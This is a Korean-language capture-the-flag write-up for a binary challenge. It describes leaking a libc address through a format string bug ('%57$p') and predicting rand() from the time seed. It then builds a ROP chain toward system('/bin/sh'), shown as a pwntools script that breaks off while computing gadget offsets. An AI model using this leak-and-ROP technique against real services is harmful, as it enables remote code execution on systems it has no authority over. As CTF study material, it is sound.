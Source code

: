 PIE가 켜져 있기때문에 FSB를 이용해서  libc를 leak한 뒤 system함수로 덮어씌우는 ROP를 구성해서 익스플로잇할 수 있다고 추측하고 시도하였다.

일단 제공된 Dockerfile에서 libc를 추출하여 이용해야 됐기 때문에 이미지로 컨테이너를 생성한 뒤 내부로 들어갔다.

이때 환경구성한 컨테이너로 계속해서 익스 시도 후 분석을 해야하는데, 다음과 같이 하면된다.

```bash
$ docker build -t leakpwn .
$ docker run -d --name leakpwncon -p 16004:5000 leakpwn
$ docker run -it --entrypoint /bin/sh leakpwn
$ /lib/libc.so.6 //libc 버전 확인
$ docker cp <container_id>:/lib/libc.so.6 ./libc.so.6
```

그리고 코드를 작성하였는데,

highscore() 함수 구조가

```bash
char buf[128];     // [rbp - 0x170]
char s[128];       // [rbp - 0xF0]
char v3[32];       // [rbp - 0x70]
char format[80];   // [rbp - 0x50]
```

위처럼 되어있으므로 필요한 패딩은 0x170(buf 시작) +  8(saved RBP) = 376 byte이다.

따라서 코드를 구성해보면

```python
from pwn import *
import time
from ctypes import CDLL

context.log_level = 'debug'
libc = ELF('libc.so.6')
rop = ROP(libc)

#p = process('./chall')
#p = remote('34.45.81.67', 16004)
p = remote('localhost', 16004)

libc_CDLL = CDLL('libc.so.6')

seed = int(time.time())
libc_CDLL.srand(seed)
nhonks = (libc_CDLL.rand() % 91) + 10

p.sendlineafter(b'> ', b'K')
p.sendlineafter(b'honks?', str(nhonks).encode())

p.sendlineafter(b'name again?', b'%57$p')
leak = p.recvuntil(b'message')

leak = leak.decode().strip()
addr_str = leak.replace("wow ", "").split()[0]
libc_leak = int(addr_str, 16)

libc_offset = 0x2a1ca
libc_base = libc_leak - libc_offset

log.success(f"libc leak = {hex(libc_leak)}")
log.success(f"libc base = {hex(libc_base)}")

pop_rdi_ret_offset = rop.find_gadget(['pop rdi', 'ret'])[0] - libc.address
binsh_offset = next(libc.search(b'/bin/sh')) - libc.address
system_offset = libc.symbols['system'] - libc.address
ret_offset = rop.find_gadget(['ret'])[0] - libc.address

```